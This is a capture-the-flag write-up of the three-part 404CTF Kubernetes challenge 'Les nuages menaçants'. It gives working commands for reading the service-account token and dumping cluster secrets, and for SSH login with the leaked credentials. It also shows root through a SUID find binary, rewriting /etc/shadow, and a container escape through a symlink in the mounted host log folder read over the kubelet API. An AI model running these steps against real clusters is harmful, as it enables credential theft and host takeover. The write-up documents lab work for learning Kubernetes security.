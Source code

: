 # Les nuages menaçants 1/3

> Vous prenez une pause bien méritée et vous vous asseyez à une table. Vous regardez les nuages quand un homme s'approche de vous :<br>
> « Vous aussi les nuages vous passionnent ? Je vous proposerai bien une madeleine, mais c'est ma dernière... Mais j'oublie l'essentiel : je suis Marcel Proust. »
>
> Il prend quelques minutes pour contempler les nuages, puis il reprend :<br>
> « Les nuages m'ont toujours passionné... J'ai entendu parler d'un nouveau type de nuage récemment, pouvez-vous me donner ses secrets ? »
> 
> Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN<br>
> Le challenge peut prendre quelques minutes à se lancer.

After connecting, I poked around in the container's files, I found a reference to k8s in the hosts file.
As I didn't know many thing about kubernetes, I searched on internet about k8s security and found the amazing [guide from Hacktriks](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration).

I used their very usefull shortcut for querying k8s without `kubectl` binary:
```bash
export APISERVER=10.43.0.1:443
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""
# if kurl is still got cert Error, using -k option to solve this.
```

Using `kurl`, I can query for my privileges: 
```bash
kurl -i -s -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
```
Response was that I could query namespace list, secrets, so I queried those endpoints:
```kurl -k https://$APISERVER/api/v1/namespaces/```<br>
In this one, I found a namespace called `404CTF` and queried its secrets:
```kurl -v https://$APISERVER/api/v1/namespaces/404ctf/secrets/```

There were 2 interesting things: the flag and a user/password combo *(in base64)*:<br>
- User: `proust`
- Password: `les_nuages`
- Flag: `404CTF{Attention_aux_secrets!}`

# Les nuages menaçants 2/3

> Après avoir trouvé les secrets du nuage, vous les racontez à Proust. Celui-ci vous demande alors d'aller explorer le nuage plus en profondeur.
>
> Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN<br>
> Le challenge peut prendre quelques minutes à se lancer.<br>
> Le flag est dans /flag.txt.

After getting the credentials, I needed to find where to use them.<br>
In the dpkg log file, I found out that nmap had been installed on the server... I was pretty sure I needed to find another server and ssh into it.<br>
Using `nmap` on the subnet, I found `10.42.0.13` had an SSH server open, and the crendentials work !

I just enumerated `/` and found `flag.txt`, readable by `proust` user.

Flag: `404CTF{A_la_Recherche_De_La_Racine}`

# Les nuages menaçants 3/3

> Après avoir exploré tous les recoins du nuage, Proust s'exclame :<br>
> « Pouvez-vous en prendre le contrôle ? J'ai toujours voulu pouvoir diriger les nuages !
>
> Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN<br>
> Le challenge peut prendre quelques minutes à se lancer.<br>
> Le flag est dans /flag.txt sur l'hôte directement.

I found the last part of this serie way harder than the previous ones and tried many false leads.

One of the escape route I was most interested in (in the Hacktriks guide) was using the hosts log folder, if it was mounted.<br>
And it was!<br>
But only root could write in it... so this path was wrong and I needed to find another way out (or so I thought).

Looking in every folder on this server with `find`, I found some ssh private keys in `/etc/ssh` for a root user, probably for the host machine.<br>
I spent a lot of time trying to find the host machine, going back to the previous server and scanning even larger subnets with nmap, only to find nothing.

At this point I was pretty lost on what to do, every way out I thought of needed me to get `root` on the `10.42.0.13` server. However no kernel exploit I tried worked (no gcc on the server).<br>
So there was no way for me to get root...unless the answer had been right before my eyes since the beginning: the `find` binary.<br>
The `find` binary had the suid of the `root` user, meaning that launching find would launch it as if it was `root` that started it.<br>
And `find` has an option to run a command on the files it founds, it was now easy to get root: `find <random_file> -exec "/bin/bash" -p \;`.<br>
> Before the next part of the getting the flag, I spent some time looking for a way to change the root password just I could have a nicer shell, and I learned something!<br>
> `chmod 777 /etc/shadow`<br>
> Then in python:<br>
> ```python
> f = open('/etc/shadow', 'r').read()
> 
> f2 = 'root:'
> f2 += <proust_hash>
> f2 += <next_part_of_f>
> 
> fil = open('/etc/shadow', 'w')
> fil.write(f2)
> fil.close()
> ```
> And there I had copied `proust`'s password for the root user.

Now that I had root, I could proceed with the exploit using the host's logs.<br>
First thing to do is create a symlink for `/` in the mounted logs folder: `ln -sn / /var/host/log/root_link`<br>
Then using `kurl`, I could query for the log file `root_link/flag.txt` which would redirect to the host's `flag.txt` (the log query is handled on the host): `kurl -k https://10.42.0.1:10250/logs/root_link/flag.txt` 

Flag: `404CTF{les_journaux_sont_parfois_traitres}`


Thanks *Typhlos#9037* for creating this amazing challenges, it was a very nice introduction to kubernetes security!

<p align="center" style="font-style: italic;">
now it's time to get out<br>
<img src="pictures/getting-out.jpg">
</p>